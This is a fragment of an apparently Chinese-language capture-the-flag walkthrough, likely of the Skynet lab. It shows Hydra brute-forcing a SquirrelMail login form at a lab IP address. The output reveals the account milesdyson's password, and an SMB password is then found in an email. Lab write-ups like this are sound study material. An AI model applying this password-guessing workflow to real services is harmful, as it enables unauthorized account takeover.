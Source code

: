     Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-12 09:02:12
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
    [DATA] attacking http-post-form://10.10.254.152:80/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.
    [80][http-post-form] host: 10.10.254.152   login: milesdyson   password: cyborg007haloterminator
    [80][http-post-form] host: 10.10.254.152   login: milesdyson   password: cyborg007haloterminator
    1 of 1 target successfully completed, 2 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-12 09:02:27      
    ```
    
    + 得到密码: cyborg007haloterminator

+ 登录squirrelmail：

    ![Alt text](/style/image/image-325.png)
    ![Alt text](/style/image/image-326.png)

    + 第一封邮件，账号milesdyson的SMB服务密码重置：``)s{A&2Z=F^n_E.B` ``
        ![Alt text](/style/image/image-327.png)
